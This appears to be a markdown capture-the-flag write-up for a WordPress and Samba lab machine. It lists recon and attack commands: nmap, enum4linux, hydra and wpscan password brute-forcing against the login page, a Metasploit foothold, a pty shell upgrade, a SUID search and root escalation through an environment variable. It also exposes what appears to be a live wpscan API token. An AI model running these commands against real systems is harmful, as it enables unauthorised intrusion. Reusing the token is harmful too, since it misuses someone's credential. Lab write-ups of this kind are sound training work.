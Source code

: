 export ip=10.10.166.125

# Recon and Scanning
## nmap
- `sudo nmap -sC -sV -O -oG nmap.log $ip`
  - 22, 80, 139, 445
  - windows 6
  - Samba 4.7.6

## enum4linux
- `enum4linux -a $ip | tee enum4linux.log`
  - users `bjoel`

## nikto
- `nikto -h $ip | tee nikto.log`
  - wp-admin
  - robot.txt

## hydra
- `hydra -l bjoel -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt $ip http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.166.125%2Fwp-admin%2F&testcookie=1:ERROR"`

## gobuster
- `gobuster dir -t 100 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -x php,txt,html -u http://blog.thm | tee gobuster.log`
  - /0

## wpscan
- `wpscan --url blog.thm --api-token cTQl41a8f7FOZWK5BeYRxF63bh4p8N1NpthAgJa6o5g -P /usr/share/wordlists/rockyou.txt -U 'bjoel'`
  - no luck
- `wpscan --url blog.thm --api-token cTQl41a8f7FOZWK5BeYRxF63bh4p8N1NpthAgJa6o5g --enumerate u`
  - 2 users, bjoel and kwheel
- `wpscan --url blog.thm --api-token cTQl41a8f7FOZWK5BeYRxF63bh4p8N1NpthAgJa6o5g -P /usr/share/wordlists/rockyou.txt -U 'kwheel'`
  - got the password

# process
- Opened the ip address in the browser as http service is running
- from the nikto log it was apparent that the site is running wordpress
- checked the robots.txt it had 2 entries, one `wp-admin` and `/wp-admin/admin-ajax.php`. the second one is unusual.
- from the enum4linux we saw a username, so tried that with wp login page and found that the username exists as the error message makes it obvious
- also enum4linux showed a share `/BillySMB` which we can map, so trying that.
- downloaded all the files
  - qr code lead to a billy joel song
  - png image was a image with txt file isnide it, but the text was a placeholder
    - `steghide extract -sf Alice-White-Rabbit.jpg` - no password
- we got the password from wpscan for an author, but as per wpscan's report we have at least one vulnerability we can make use of to get into the system.
- using metasploit I was able to get a meterpreter session
  - ran the below commands to get a better shell
    - `shell`
    - `python -c 'import pty;pty.spawn("/bin/bash")'`
  - checked for files with SUID set
    - `find / -perm -u=s -type f 2>/dev/null`
    - and found one file called `checker` which I was not sure what actually does
    - tried to execute it and it just said, not an admin
    - So used ltrace to see whats happening behind the screen, and found it was actually getting the env variable called `admin`.
    - So I thought of settting it to some value
      - export admin=true
    - executed the checker file again and suddenly I had root shell :D
  - went to the home dir of root where I got the first flag
  - cms name and version was found out from wpscan results.
  - Now all that's left are the user.txt content and the location.
  - from the question it is apparent that first part of the location of user.txt has five characters. So cd into `/` and go through all the plausible directories. I tried `/media` first where I found `usb` directory under which user.txt was found.